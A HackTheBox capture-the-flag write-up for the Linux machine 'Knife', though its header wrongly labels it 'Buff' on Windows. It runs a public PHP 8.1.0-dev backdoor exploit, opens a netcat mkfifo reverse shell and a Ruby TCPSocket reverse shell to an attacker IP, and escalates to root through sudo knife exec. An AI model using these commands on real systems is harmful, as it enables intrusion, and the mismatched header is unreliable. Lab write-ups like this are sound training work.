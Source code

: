 #  Buff - HackTheBox WriteUp

OS: Windows 

Difficulty: Easy

IP: 10.10.10.242

Vulnerabilities: 

### Scanning, Recon & Information Gathering

The penetration test was started by running a quick full TCP nmap scan against the target:

nmap -p- -T4 10.10.10.242

![nmap_quick](../images/knife/nmap.jpg)

#### Service Enumeration 

**Port 80**

![home](../images/knife/home.jpg)

Navigating to the home page and checking the headers via a proxy like burp:

![php 8_1_0-dev](../images/knife/php_version.png)

PHP/8.1.0-dev is identified as PHP version

Searching for exploits:

searchsploit PHP '8.1.0-dev'

![searchsploit_php8_1_0-dev](../images/knife/searchsploit_php810dev.jpg)

Using the exploitt script and running the following commands will lead to a shell on the target:

```
searchsploit -m 49933.py
mv 49933.py php_8_1_0_dev_exploit.py
python3 php_8_1_0_dev_exploit.py http://10.10.10.242/
id
cat /home/james/user.txt
```

![reverse shell](../images/knife/user.jpg)

Using netcat we can get a reverse shell

```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.114 443 >/tmp/f```

![reverse shell](../images/knife/rev.jpg)

Privilege Escalation:


Upgrade the terminal using python
```
$ which python
$ which python3
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
james@knife:/$ ^Z
[1]+  Stopped                 nc -lnvp 443
root@kali:/pwn_share/HTB/knife# stty raw -echo
root@kali:/pwn_share/HTB/knife# nc -lnvp 443

james@knife:/$ export TERM=xterm
james@knife:/$
```

Checking for what the user can do with sudo:

```james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Reading the knife help and documentation, we find that it can execute ruby scripts.

```sudo /usr/bin/knife --help```

![knife_help](../images/knife/knife_help.jpg)

creating a script in the /tmp directory with the following contents

```exit if fork;c=TCPSocket.new("10.10.14.114","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end```

This will initiate a reverse shell connection back to the attacker's machine where a listener is running.

All of this can be done using reverse shell generator 

```rsg 10.10.14.114 443 ruby```

And then copying the contents to a new script in /tmp/my.rb

Executing the script
```sudo /usr/bin/knife exec '/tmp/my.rb'```

id
cat /root/root.txt



![root](../images/knife/root.jpg)

